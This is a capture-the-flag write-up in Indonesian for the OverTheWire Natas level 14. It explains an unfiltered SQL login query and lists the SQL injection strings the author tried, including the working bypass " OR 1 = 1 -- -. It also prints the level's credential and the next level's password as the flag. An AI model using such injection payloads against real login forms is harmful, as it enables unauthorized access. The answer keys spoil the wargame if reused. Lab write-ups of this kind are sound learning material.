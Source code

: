 ```yaml
---
layout: default
level: 14
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas14 \
URL:      http://natas14.natas.labs.overthewire.org

# solve
- login with cred natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
- di soal kali ini terdapat sebuah form login username admin disini ketika saya coba cek sourcenya terdapat connect database hanya saja tidak ada filternya
  ![alt text](docs/images/image-35.png)
  ```bash
  SELECT * FROM USERS WHERE username = '<input>' AND password = '<input>';
  # pas dicoba " dia berhasil
  SELECT * FROM USERS WHERE username = '"<input>' AND password = '<input>';

  "admin
  " OR "1" = "1
  " OR "test" = "test
  ```
- saya mencoba memasukan sqli manual dengan wordlist ini
  - https://github.com/payloadbox/sql-injection-payload-list
- waktu saya mencoba yang ini berhasil
  ![alt text](docs/images/image-36.png)
  ![alt text](docs/images/image-37.png)
  ```bash
  " OR 1 = 1 -- -
  ```
- output
  ```bash
  # Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
  ```

# flag
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx